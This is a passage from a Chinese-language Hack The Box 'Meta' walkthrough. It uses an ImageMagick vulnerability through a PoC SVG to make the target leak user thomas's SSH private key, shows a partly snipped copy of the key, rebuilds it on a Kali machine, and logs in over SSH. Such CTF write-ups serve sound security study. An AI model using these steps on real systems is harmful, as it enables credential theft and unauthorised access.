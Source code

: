 使用 imagemagick 漏洞获取 ssh 文件

与之前相同，将此文件复制到图像文件夹:

```
www-data@meta:/dev/shm$ cp poc.svg /var/www/dev01.artcorp.htb/convert_images/
```

等待几分钟，我们的文件已经到达:

```
www-data@meta:/dev/shm$ ls -lsa
4 -rw-r--r--  1 thomas   thomas   2590 Jan 23 13:31 id_rsa
4 -rw-r--r--  1 thomas   thomas     54 Jan 23 13:38 0wned
4 -rw-r--r--  1 www-data www-data  412 Jan 23 13:28 poc.svg
```

检查内容:

```
www-data@meta:/dev/shm$ cat key
-----BEGIN OPENSSH PRIVATE KEY----- b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAA
AAAABAAABlwAAAAdzc2gtcnNhAAAAAwEAAQAAAYEAt9IoI
5gHtz8omhsaZ9Gy+wXyNZPp5jJZvbOJ946OI4g2kRRDHDm
<SNIP>bhFErAeoncE3vJAAAACXJvb3RAbWV0YQE= 
-----END OPENSSH PRIVATE KEY-----
```

把盒子里的钥匙复制给卡莉。它的格式不正确，我们来解决一下:

```
┌──(root💀kali)-[~/htb/meta]
└─# echo "-----BEGIN OPENSSH PRIVATE KEY-----" > id_rsa

┌──(root💀kali)-[~/htb/meta]
└─# echo "b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAA
AAABAAABlwAAAAdzc2gtcnNhAAAAAwEAAQAAAYEAt9IoI5gHtz8omhsaZ9
Gy+wXyNZPp5jJZvbOJ946OI4g2kRRDHDm5x7up3z5s/H/yujgjgroOOHh9
zBBuiZ1Jn1jlveRM7H1VLbtY8k/rN9PFe/MkRsYdH45IvV<SNIP>
bhFErAeoncE3vJAAAACXJvb3RAbWV0YQE=" | sed 's/ /\n/g' >> id_rsa

┌──(root💀kali)-[~/htb/meta]
└─# echo "-----END OPENSSH PRIVATE KEY-----" >> id_rsa
```

# 用户标志

现在，我们可以以 thomas 的身份登录机器:

```
┌──(root💀kali)-[~/htb/meta]
└─# ssh -i id_rsa thomas@artcorp.htb
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
thomas@meta:~$
```

让我们获取用户标志:
